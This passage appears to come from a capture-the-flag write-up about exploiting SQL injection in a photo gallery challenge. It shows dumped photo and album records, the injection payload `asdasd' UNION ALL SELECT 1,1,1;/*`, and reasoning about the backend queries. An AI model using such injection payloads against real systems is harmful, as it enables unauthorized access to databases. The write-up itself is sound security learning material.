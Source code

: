 The above spat out:

```
Photo ID: 1 
Photo:0a382c6177b04386e1a45ceeaa812e4e.jpg  
Album hash: 3dir42
Album ID: 1,

Photo ID: 2 
Photo:1254314b8292b8f790862d63fa5dce8f.jpg  
Album hash: 3dir42
Album ID: 1,

Photo ID: 3 
Photo:32febb19572b12435a6a390c08e8d3da.jpg  
Album hash: 59grop
Album ID: 2,

Photo ID: 4 
Photo:db507bdb186d33a719eb045603020cec.jpg  
Album hash: jdh34k
Album ID: 3,

Photo ID: 5 
Photo:9b881af8b32ff07f6daada95ff70dc3a.jpg  
Album hash: jdh34k
Album ID: 3,

Photo ID: 6 
Photo:13d74554c30e1069714a5a9edda8c94d.jpg  
Album hash: jdh34k
Album ID: 3
```

At this point it looked like there was nothing else in the database to squeeze out.

Some of my earlier manual fiddling resulted in `asdasd' UNION ALL SELECT 1,1,1;/*` pulling back photos from an album. Changing the first `1` to `2` and then `3` pulled back photos from each of the other two photo albums. This made me think the page was running two queries behind the scenes. Something along the lines of:

Pull the requested photo album out by it's hash (from query param `hash`):

`SELECT id, x, y FROM albums WHERE hash = ?`

And then pull all photos out for that album, using the returned `id` from the above query as the album id:

`SELECT * FROM photos WHERE album_id = ?`

I had also taken a look at the script that loaded each image content. The output of the gallery script loaded images using the following:

![gallery images](/assets/2021-01-07-hacky-holidays/flag11.c.png)
